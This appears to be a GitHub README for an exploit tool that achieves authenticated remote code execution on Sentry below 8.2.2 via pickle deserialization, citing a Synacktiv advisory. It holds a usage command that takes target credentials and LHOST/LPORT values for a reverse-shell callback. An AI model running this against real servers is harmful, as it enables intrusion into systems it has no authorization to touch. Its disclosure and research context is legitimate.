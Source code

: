 # Sentry-Authenticated-Remote-Code-Execution
## Sentry &lt; 8.2.2 Pickle Deserialization to RCE

<h4> Discovered By : Clement Berthaux (SYNACKTIV) </h4>
<h4> Exploit Authored By : Mohin Paramasivam (Shad0wQu35t)
<h4> HTB Profile : https://app.hackthebox.eu/profile/16731 </h4>
<h4> Advisory Link : https://doc.lagout.org/Others/synacktiv_advisory_sentry_pickle.pdf </h4>
<h4> Exploit DB Link :  </h4>

<h4> Usage : python exploit.py --url `http://puturhostnamehere/auth/login/sentry/` -U `username` -P `password` -l `LHOST` -p `LPORT`</h4>
  

![alt text](https://github.com/mohinparamasivam/Sentry-Authenticated-Remote-Code-Execution/blob/main/sentry_exploit.png?raw=true)              
              


# Dependencies

<h4>pip install requests</h4>
<h4>pip install bs4</h4>
<h4>pip install argparse</h4>

